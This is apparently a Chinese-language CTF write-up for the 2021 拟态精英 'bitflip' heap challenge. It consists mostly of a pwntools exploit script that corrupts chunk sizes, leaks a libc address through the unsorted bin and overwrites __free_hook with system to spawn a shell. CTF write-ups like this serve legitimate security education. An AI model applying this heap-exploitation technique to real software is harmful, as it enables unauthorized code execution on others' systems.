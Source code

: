 ```yaml
---
layout: post
title: "2021 拟态精英 pwn bitflip wp"
date:   2022-4-10
tags: [ctf_wp]
comments: true
author: wsxk
---
```


拟态的pwn题全是堆题，这道题关于tcache的利用，我觉得是比较好的


    #!/usr/bin/env python3

    from pwn import *

    exe = ELF("./bitflip_patched")
    libc = ELF("./libc-2.27.so")
    ld = ELF("./ld-2.27.so")

    context.binary = exe
    context.log_level="debug"
    io= process([ld.path,exe.path],env={"LE_PRELOAD":libc.path})

    def create(idx,size):
        io.sendlineafter("Your choice: ",str(1))
        io.sendlineafter("Index: ",str(idx))
        io.sendlineafter("Size: ",str(size))

    def edit(idx,content):
        io.sendlineafter("Your choice: ",str(2))
        io.sendlineafter("Index: ",str(idx))
        io.sendlineafter("Content: ",content)

    def show(idx):
        io.sendlineafter("Your choice: ",str(3))
        io.sendlineafter("Index: ",str(idx))

    def remove(idx):
        io.sendlineafter("Your choice: ",str(4))
        io.sendlineafter("Index: ",str(idx))

    for i in range(12): #这里多申请几个，因为0xc1太大了可能回覆盖到topchunk部分导致失败
        create(i,0x38)

    for i in range(8):
        edit(i,b"a"*0x38+b"\xc1")
    #gdb.attach(io)
    for i in range(8):
        remove(i+1)  # 7个在tcache，一个在unsorted bin

    create(12,0x38)  #因为堆机制，会切割unsortedbin中的块
    show(9)  #切割的原位置是8
    libc.address = u64(io.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))-96-0x10-libc.sym['__malloc_hook']
    print(hex(libc.address))

    create(13,0x38) # 9 
    remove(13)  # 造成空指针
    edit(9,p64(libc.sym["__free_hook"])) #开始劫持free_hook
    create(14,0x38)
    create(15,0x38)
    edit(14,"/bin/sh")
    edit(15,p64(libc.sym["system"]))
    remove(14)
    #gdb.attach(io)
    io.interactive()